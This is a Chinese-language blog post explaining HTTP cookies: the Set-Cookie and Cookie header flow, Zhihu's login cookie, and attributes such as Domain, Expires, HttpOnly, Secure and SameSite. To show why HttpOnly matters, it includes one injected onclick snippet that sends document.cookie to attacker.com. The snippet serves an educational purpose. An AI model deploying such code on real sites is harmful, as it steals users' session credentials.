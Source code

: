 ```yaml
---
title: HTTP Cookies
subtitle: A sweet biscuit.
description: http,cookie
date: 2019-06-30
layout: default
category: 技术
---
```


### Cookie定义

[HTTP cookie](https://www.wikiwand.com/en/HTTP_cookie)技术可以把网站服务器发送给浏览器的特定数据都存在客户端的硬盘上，目的是把**无状态的HTTP请求(stateless)变成有状态的HTTP请求(stateful)**。为什么叫cookie呢？因为它的和[magic cookie](https://www.wikiwand.com/en/Magic_cookie)很类似的原理，magic cookie用于描述**程序接收到数据并把数据原封不动的返回去的一种行为**。1994年网景(netscape)公司的程序员开发一个在线购物应用，设计购物车时，不想把这些数据都存在服务器端，而是直接存在用户的电脑上，减轻服务端的储存压力，不过现代版的购物车通常都是储存在服务器(Cache/数据库)中，cookie可只记录购物车的唯一标识符，而不是直接记录具体的商品。

### Cookie流程及结构

大部分web网站都会使用到cookie，使用它的基本流程可以概括为3步：

1. 浏览器向服务器请求一个从未请求过的web页面；

   ```http
   GET /index.html HTTP/1.1
   Host: www.example.org
   ...
   ```

2. 服务器返回浏览器此页面，并在返回http包的header中设置set-cookie属性；

   ```http
   HTTP/1.0 200 OK
   Content-type: text/html
   Set-Cookie: theme=light
   Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2020 10:18:14 GMT
   ...
   ```

   上面示例设置了两个cookies：
   第一个是**theme**，由于没有设置它的**Expires** 或 **Max-Age**属性，所以是个**session cookie**,它会在浏览器关闭时直接被删除掉。
   第二个是**SessionToken**,它有过期时间，所以只会在指定的过期时间后才会被删除(也可手动删除)。

3. 浏览器会在接下来的http请求的header中把以上cookie原样返回给服务器。

   ```http
   GET /spec.html HTTP/1.1
   Host: www.example.org
   Cookie: theme=light; sessionToken=abc123
   …
   ```

   浏览器访问http://www.example.org/spec.html时，会把上一步的cookies设置在header中原样返回给服务器，当然不需要再指定cookie的其它属性，只需要把key-value返回即可。

服务器根据设置的cookies就能知道标识这个客户，**把无状态的HTTP请求变成了有状态的请求。**

可以看看具体的网页端的知乎是如何登录的？

![](/Users/zhongwen/截图存放/zhihu_cookie.png)

下图就是通过chrome调试器中看到的https://www.zhihu.com下登录成功后所有的cookies.其中**z_c0**就是登录成功的凭证，当手动把它删除时后刷新界面，会要求重新登录。

![](/Users/zhongwen/截图存放/session_login.png)

从调试器中可以看出cookies除了key-value结构外，还有一些其它的属性。

1. **Domain**和**Path**,它俩定义了cookie的作用范围，告诉浏览器这些cookie属于那个作用域下，为了保证安全，cookie只能设置当前资源的顶级域或子域，不能设置其它域的cookie，比如：zhihu.com网站不能设置baidu.com域名下的cookie。

2. **Expires**和**Max-Age**，浏览器会在Expires指定的时间点过期时，把对应的cookie删除掉。Max-Age与Expires作用相同，只是指定的是浏览器将在未来多少秒后将cookie删除。

3. **Secure**和**HttpOnly**,这两个属性没有具体的值，如果指定了对应的属性，则表示启用了它。比如：

   ```http
   HTTP/1.0 200 OK
   Set-Cookie: lu=Rg3vHJZnehYLjVg7qi3bZjzg; Expires=Tue, 15 Jan 2020 21:47:38 GMT; Path=/; Domain=.example.com; HttpOnly
   ```

   **HttpOnly**表示这个cookie不能被客户端使用JavaScript读取到，是不公开的cookie。比如你在chrome调试器的console中输入`document.cookie`将得不到标记为**HttpOnly**的字段。

   假如你的网站代码非常不幸地被注入了窃取cookie的代码：

   ```http
   <a href="#" onclick="window.location = 'http://attacker.com/stole.cgi?text=' + escape(document.cookie); return false;">Click here!</a>
   ```

   如果用户点击这个链接，浏览器就会把所有**没有**指定**HttpOnly**的cookies都发给attacker.com。

   **Secure**表示cookie只能通过加密传输，即只能用于HTTPS连接。
   比如你可以看到：知乎cookie里面的登录凭证的**HTTPOnly**和**Secure**都是打开的！

4. **SameSite**属性是chromium特有的。用于允许服务器通过声明特定的cookie应与同一可注册域发起的请求一起发送来减轻跨域攻击[CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))和信息泄漏攻击风险。

#### Reference

* [Where cookie comes from?](https://web.archive.org/web/20031220214905/http://dominopower.com/issues/issue200207/cookie001.html)



